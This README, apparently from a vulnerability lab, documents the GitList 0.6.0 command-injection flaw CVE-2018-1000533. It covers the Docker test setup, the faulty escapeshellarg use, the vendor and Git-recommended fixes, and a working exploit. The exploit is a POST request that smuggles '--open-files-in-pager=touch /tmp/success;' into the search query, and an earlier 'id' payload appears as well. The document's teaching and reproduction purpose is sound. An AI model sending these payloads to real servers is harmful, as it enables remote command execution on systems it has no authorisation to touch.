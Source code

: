 # GitList 0.6.0 Remote Commands Execution (CVE-2018-1000533)

[中文版本(Chinese version)](README.zh-cn.md)

GitList is an elegant and modern git repository viewer.

GitList version <= 0.6 contains a passing incorrectly sanitized input to system function vulnerability in `searchTree` function that can result in executing arbitrary commands as PHP user. This attack appear to be exploitable via POST request using search form.

## Vulnerable environment

Execute following command to start a GitList server 0.6.0:

```
docker compose up -d
```

After the server is started, browse the `http://your-ip:8080` and you will see a repository named `example`.

## Vulnerability Principle

GitList uses `git grep` while searching code in repository:

```php
public function searchTree($query, $branch)
{
    if (empty($query)) {
        return null;
    }

    $query = escapeshellarg($query);

    try {
        $results = $this->getClient()->run($this, "grep -i --line-number {$query} $branch");
    } catch (\RuntimeException $e) {
        return false;
    }
```

`$query` is the search keyword, `$branch` is the target branch.

`id` will be executed if attacker passed `--open-files-in-pager=id;` as the `$query`'s value:

![](img/1.png)

There are two reasons for this vulnerability:

1. Misunderstanding of the `escapeshellarg` function, resulting in arguments injection
2. The value of the `--open-files-in-pager` argument of `git grep`, which will be directly executed

Theoretically, after `$query = escapeshellarg($query);`, `$query` will become a string wrapped in single quotes. The premise of the bug is that the string should appear in the “parameter value” position, not in the parameter option.

To fix this issue, we can put the `$query` option behind `-e`:

```
git grep -i --line-number -e '--open-files-in-pager=id;' master
```

![](img/2.png)

This is the suggestion from Git official:

> -e
> The next parameter is the pattern. This option has to be used for patterns starting with - and should be used in scripts passing user input to grep. Multiple patterns are combined by
> or.

GitList used another fix:

```php
public function searchTree($query, $branch)
{
    if (empty($query)) {
        return null;
    }
    $query = preg_replace('/(--?[A-Za-z0-9\-]+)/', '', $query);
    $query = escapeshellarg($query);
    try {
        $results = $this->getClient()->run($this, "grep -i --line-number -- {$query} $branch");
    } catch (\RuntimeException $e) {
        return false;
    }
```

Firstly, remove illegal `-` prefix from `$query`, then put it behind `--`. The double-dash (`--`) will be accepted as a delimiter indicating the end of options in command line.

> A -- signals the end of options and disables further option processing. Any arguments after the -- are treated as filenames and arguments. An argument of - is equivalent to --.
>
> If arguments remain after option processing, and neither the -c nor the -s option has been supplied, the first argument is assumed to be the name of a file containing shell commands. If bash is invoked in this fashion, $0 is set to the name of the file, and the positional parameters are set to the remaining arguments. Bash reads and executes commands from this file, then exits. Bash's exit status is the exit status of the last command executed in the script. If no commands are executed, the exit status is 0. An attempt is first made to open the file in the current directory, and, if no file is found, then the shell searches the directories in PATH for the script.

So this this patch is acceptable, except that the `preg_replace` in the first step affects the normal search function.

## Exploit

Send following request:

```
POST /example/tree/a/search HTTP/1.1
Host: your-ip:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Content-Length: 56

query=--open-files-in-pager=touch /tmp/success;
```

Noted that there are two arguments in URL: `/[repo_name]/tree/[keyword]/search`. `[repo_name]` must be a existing repository in the GitList, `[keyword]` is a search keyword that produces at least one result.

After the request is sent, use `docker compose exec web bash` to enter the container and you can see that `/tmp/success` has been successfully created:

![](img/4.png)
